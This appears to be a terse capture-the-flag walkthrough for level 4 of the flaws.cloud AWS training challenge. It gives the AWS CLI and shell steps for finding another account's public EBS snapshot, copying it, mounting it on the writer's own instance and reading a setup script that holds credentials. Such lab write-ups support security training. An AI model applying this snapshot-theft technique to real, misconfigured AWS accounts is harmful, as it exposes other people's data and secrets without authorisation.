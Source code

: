 # EC2 Snapshot Accessible to All AWS User
Target: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/


<b>Retreive information about IAM user or role</b>
```
aws --profile flaws-cloud sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/452b7b47-26aa-4219-9ca6-a44787c7d1ab)


aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
aws --profile administrator ec2 copy-snapshot --source-region us-west-2 --source-snapshot-id snap-0b49342abd1bdcb89
open aws > set us-west-2 > ec2 > snapshot > create volume > create any ec2 instance > create new key pair > volume > attach instance > ssh instance > fdisk > mount /dev/xvdf1 /mnt > df > cd /mnt/ > ls > cd ubuntu/ > ls > cat setupNginx.sh


```
aws --profile flaws-cloud-3 ec2 describe-volumes --region us-west-2
aws --profile flaws-cloud-3 ec2 describe-snapshots --snapshot-id snap-0f23409e560e2f059
aws --profile flaws-cloud-3 sts get-caller-identity
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
raid aws --profile administrator ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89
raid aws --profile administrator ec2 describe-volumes --region us-west-2
raid aws --profile administrator ec2 describe-instances --region us-west-2
raid aws --profile administrator ec2 attach-volume --volume-id vol-05bfa570a13845bfc --instance-id i-0a5fc34ac1277d241 --device /dev/sdf --region us-west-2
ls
ssh
lsblk
sudo mount /dev/xvdf1 /mnt
cd /mnt
ls
cd home
ls
cd ubuntu
ls
cat setupNginx.sh
```
